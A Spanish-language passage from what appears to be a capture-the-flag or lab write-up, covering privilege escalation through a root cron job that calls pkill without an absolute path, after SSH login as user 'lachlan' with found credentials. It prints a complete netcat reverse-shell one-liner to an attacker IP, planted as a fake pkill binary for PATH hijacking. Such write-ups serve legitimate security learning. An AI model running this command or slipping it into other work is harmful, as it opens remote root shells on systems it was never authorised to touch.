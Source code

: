 Tambien podemos ver en el archivo `/etc/cron.d/persistence` existe tareas que el usuario `root` lo realiza, este hace un `kill` de la sesión

![20231109112134.png](20231109112134.png)

### Usuario lachlan

Nos conectamos por `ssh` con las credenciales que encontramos

![20231109114356.png](20231109114356.png)

¿Que haremos?
Vemos que el binario `kill` no lo ejecutan desde la ruta absoluta, por lo que podemos hacer uso de este binario, crearemos nuestro propio `pkill` en donde inyectaremos una revershell. 

```java
echo 'rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [IP-ATTACKER] 444 >/tmp/f' >bin/pkill ; chmod +x bin/pkill 
```
